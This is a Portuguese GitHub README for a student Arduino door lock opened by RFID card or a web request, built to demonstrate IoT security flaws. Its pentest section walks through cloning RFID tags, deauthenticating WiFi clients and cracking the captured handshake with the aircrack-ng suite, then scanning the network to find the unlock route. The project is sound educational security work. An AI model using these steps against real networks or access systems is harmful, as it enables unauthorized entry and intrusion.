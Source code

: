 # Arduino-DoorLock


O projeto apresentado no presente repositório se trata de um sistema de controle de acesso físico utilizando o microcontrolador Arduino. O protótipo final simula o funcionamento de um mecanismo para trancar e destrancar portas de forma eletrônica, controlado via Cartão RFID e WiFi, onde, caso o acesso seja bem-sucedido, um Servo Motor é movimentado liberando a abertura da porta.

A premissa ao simular - o que poderia ser o controle de acesso físico de um ambiente real - é evidenciar, analisar e explorar as possíveis vulnerabilidades que podem ser encontradas em implementações inseguras de redes e dispositivos IoT. Para tanto, neste projeto, são executados testes de segurança que exemplificam de forma semelhante a realidade os ataques cibernéticos mais recorrentes, conforme aponta o relatório da [“OWASP Top 10 IoT”](https://owasp.org/www-pdf-archive/OWASP-IoT-Top-10-2018-final.pdf), de 2018.


## Tabela de Conteúdos
* [Sobre](#arduino-doorlock)
* [Tabela de Conteúdos](#tabela-de-conteúdos)
* [Pré-Requisitos](#pré-requisitos)
* [User Story](#user-story)
* [Testes de Invasão](#testes-de-invasão)
* [Autores](#autores)

## Pré-Requisitos
Nesta seção são apresentados todos os pré-requisitos necessários para reproduzir o protótipo do [DoorLock](https://github.com/iuribpmoro/Arduino-DoorLock).

### Materiais
Para montagem deste projeto serão necessários os seguintes componentes:
* [Arduino UNO](https://www.filipeflop.com/produto/placa-uno-r3-cabo-usb-para-arduino/)
* [Protoboard 400 pontos](https://www.filipeflop.com/produto/protoboard-400-pontos/#tab-description)
* [Servo Motor](https://www.filipeflop.com/produto/micro-servo-sg92r-9g-towerpro/)
* [Módulo leitor RFID MFRC522](https://www.filipeflop.com/produto/kit-modulo-leitor-rfid-mfrc522-mifare/?utm_source=google&utm_medium=organic&utm_campaign=shopping&utm_content=surfaces_across_google)
* [Ethernet Shield W5100 para Arduino](https://www.filipeflop.com/produto/ethernet-shield-w5100-para-arduino/)
* [Cabo de Rede](https://www.filipeflop.com/produto/cabo-de-rede-conector-rj45-15m/)
* [Sensor Hall Magnético KY-003](https://www.filipeflop.com/produto/sensor-hall-ky-003/)
* [LED Verde](https://www.baudaeletronica.com.br/led-difuso-5mm-verde.html)
* [LED Vermelho](https://www.baudaeletronica.com.br/led-difuso-5mm-vermelho.html)
* [2 x Resistor 220Ω](https://www.filipeflop.com/produto/resistor-220%cf%89-14w-x20-unidades/)
* Jumpers

### Montagem
A montagem deste projeto segue o sketch de demonstração.
Lembrando que o Ethernet Shield deve ser conectado sobre o Arduino.

<details>
  <summary>Clique para visualizar o sketch</summary>
  <img alt="DoorLock Sketch" src="https://github.com/iuribpmoro/Arduino-DoorLock/blob/main/Sketch/door_lock_sketch.png" height="700px">
</details>

### Instalação
Para anexar o protótipo em uma maquete ou mesmo em uma porta, deve-se seguir a estrutura:
[instalacao-doorlock.pdf](https://github.com/iuribpmoro/Arduino-DoorLock/files/6788697/instalacao-doorlock.pdf)

### Softwares
Os pré-requisitos a nível de software para reproduzir a aplicação:
* [Arduino IDE](https://www.arduino.cc/en/software)
* [Biblioteca](https://www.arduino.cc/reference/en/libraries/mfrc522/) (Passo a passo: [Adicionar bibliotecas na IDE do arduino](https://www.robocore.net/tutoriais/adicionando-bibliotecas-na-ide-arduino))
* [Código-fonte do DoorLock](https://github.com/iuribpmoro/Arduino-DoorLock/blob/main/DoorLock/DoorLock.ino)

Por fim, o arduino deve ser conectado via USB com o computador, o código deve ser carregado na placa e o ambiente estará pronto.

## User Story

### Cartão
**Eu como** pessoa autorizada a acessar um determinado local

**Quero que** consiga abrir a porta deste local aproximando meu cartão RFID do leitor<br>
**Ou** consiga abrir a porta deste local através da wifi, acessando uma determinada rota que faz uma requisição de abertura da porta
**e** só tranque novamente quando após eu fechá-la
**ou** caso eu não abra, deverá se trancar novamente

**Para** não utilizar chaves<br>
**e** poder manipular a minha fechadura a distância

### Conversa
O servo deve girar em 90º quando:
- O conteúdo lido no card RFID estiver correspondente
- A requisição WiFi enviada for para a rota /b

O controle para saber se a porta está aberta ou fechada de ser feita pelo Sensor Magnético.<br>
Se estiver perto do imã que está na porta, significa que está fechada. Senão, está aberta.

### Confirmação

Cenário 01 - Abrindo a porta - <Válido>: 
1.  **Dado que** possuo um cartão RFID autorizado ou conheço a requisição WiFi correta a ser enviada
2.  **Quando** aproximar meu cartão da leitora ou enviar uma requisição WiFi correta
3.  **Então** o LED verde acenderá, a fechadura será destrancada e eu poderei abrir a porta dentro dos próximos 5 segundos.
4.  **Caso 1:** Caso eu não abra a porta, a fechadura irá trancar novamente e o LED verde será apagado
5.  **Caso 2:** Caso eu abra a porta, a fechadura só vai trancar 5 segundos após eu fechar, assim como o LED verde se apagará

Cenário 02 - Abrindo a porta - <Inválido>: 
1.  **Dado que** não possuo um cartão RFID autorizado, nem conheço a requisição WiFi correta a ser enviada
2.  **Quando** aproximar meu cartão da leitora ou enviar uma requisição WiFi incorreta ou apenas tentar abrir a porta
3.  **Então** o LED vermelho acenderá e a fechadura permanecerá trancada.

## Testes de Invasão

Primeiramente, demonstra-se o funcionamento de um ataque físico de cópia de conteúdos em tags RFID, por meio da utilização de um
segundo arduino configurado para atingir esse objetivo. Em segundo lugar, exemplifica-se um ataque de força bruta para a quebra
da senha da rede WiFi na qual o dispositivo está conectado, descrevendo os riscos de utilizar senhas fracas e previsíveis.

Por meio da utilização do script [Automap](https://github.com/iuribpmoro/Automap) que realizam o reconhecimento, scanning e enumeração da rede, descobre-se, por fim, como operar a fechadura por meio de requisições web, finalizando o processo de ataque.

### RFID Hacking
O clonador RFID apresentado realiza a cópia do segundo bloco de conteúdo de uma tag para outra. 
Para clonar o conteúdo da tag RFID, siga os passos abaixo:

- Aperte o botão preto do clonador RFID. 
  - O LED amarelo ficará ativo;
- Aproxime o cartão a ser clonado para realizar a leitura do conteúdo;
- Aperte o botão vermelho do clonador RFID;
  - O LED verde ficará ativo;
- Aproxime o seu cartão para realizar a escrita do conteúdo;

### WiFi Hacking
#### Setup da Interface
- Iniciar modo de monitoramento da interface WiFi:
```bash
sudo airmon-ng start wlan0
```
- Verifique as interfaces wireless:
```bash
sudo iwconfig
```
#### Scanning da Rede
- Realize o scan das redes próximas e tome nota do BSSID e Channel da rede alvo:
```bash
sudo airodump-ng wlan0mon
```
- Realize o scan da rede alvo, tomando nota do MAC dos dispositivos conectados e salvando os handshakes a serem capturados:
```bash
sudo airodump-ng -c <CANAL_DA_REDE> --bssid <BSSID_DA_REDE> -w <PREFIXO_DO_ARQUIVO_DE_OUTPUT> wlan0mon
```
#### Deauthentication
- Em outro terminal, enquanto o outro roda o comando anterior, expulse os hosts da rede por meio de um ataque de deauthentication:
```bash
sudo aireplay-ng -0 2 -a <BSSID_DA_REDE> -c <MAC_DO_DISPOSITIVO>
```
#### Brute Force
- Realize um ataque de força bruta nos pacotes capturados para tentar realizar a quebra da senha:
```bash
sudo aircrack-ng <ARQUIVO>.cap -w <WORDLIST>
```
### Scanneando a Rede
#### Instalando o Automap
- Baixe a ferramenta do github:
```bash
git clone https://github.com/iuribpmoro/Automap
```
- Rode o script de instalação:
```bash
./install.sh
```
#### Rodando o Automap
- Rode o scan na rede e em todos os hosts conectados:
```bash
./Automap.sh network <REDE> <WORDLIST_DE_DIRETORIOS> -n <NUMERO_DE_PORTAS>
```

## Autores
### Gabrieli Silva
[![Gmail Badge](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white
)](mailto:nets.gss@gmail.com)[![Linkedin Badge](https://img.shields.io/badge/linkedin%20-%230077B5.svg?&style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/gabrieli-silva-435627164/)
### Iuri Moro
[![Gmail Badge](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white
)](mailto:iuribpmoro@gmail.com)[![Linkedin Badge](https://img.shields.io/badge/linkedin%20-%230077B5.svg?&style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/iuribpmoro/)
